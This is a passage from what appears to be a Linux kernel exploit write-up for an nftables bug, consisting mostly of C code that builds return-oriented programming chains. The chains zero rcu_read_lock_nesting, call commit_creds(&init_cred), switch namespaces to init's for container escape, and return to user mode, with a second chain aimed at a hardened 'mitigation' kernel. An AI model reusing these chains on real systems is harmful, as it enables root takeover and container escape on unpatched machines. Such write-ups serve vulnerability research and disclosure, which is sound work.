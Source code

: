 ```c
	// current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
	data[i++] = kbase + POP_RCX_RET;
	data[i++] = 0;
	data[i++] = kbase + MOV_RAX_RCX_RET;

    // commit_creds(&init_cred)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = kbase + INIT_CRED;
    data[i++] = kbase + COMMIT_CREDS;

    // find_task_by_vpid(1)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + FIND_TASK_BY_VPID;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + MOV_RDI_RAX_RET;
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + INIT_NSPROXY;
    data[i++] = kbase + SWITCH_TASK_NAMESPACES;

    data[i++] = kbase + POP_RSP_RET;
    data[i++] = kmalloc_96 + sizeof(uint64_t);
}

void rop_chain_96(uint64_t* data){
    int i = 0;

    data[i++] = kbase + PUSH_RBX_POP_RSP;

    data[i++] = kbase + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE;
    data[i++] = 0;
    data[i++] = 0;
    data[i++] = _user_rip;
    data[i++] = _user_cs;
    data[i++] = _user_rflags;
    data[i++] = _user_sp;
    data[i++] = _user_ss;
}
```

For mitigation kernel, the ROP payload is stored in `chain->blob_gen_0` which is allocated by page allocator.

```c
void rop_chain(uint64_t* data){
    int i = 0;

    data[i++] = 0x100;
    data[i++] = 0x100;
    data[i++] = PAYLOAD_LOCATION(1) + offsetof(struct cpu_entry_area_payload, nft_expr_eval);

    // current = find_task_by_vpid(getpid())
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = getpid();
    data[i++] = kbase + FIND_TASK_BY_VPID;

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = RCU_READ_LOCK_NESTING_OFF;
    data[i++] = kbase + ADD_RAX_RSI_RET;

    // current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
    data[i++] = kbase + POP_RCX_RET;
```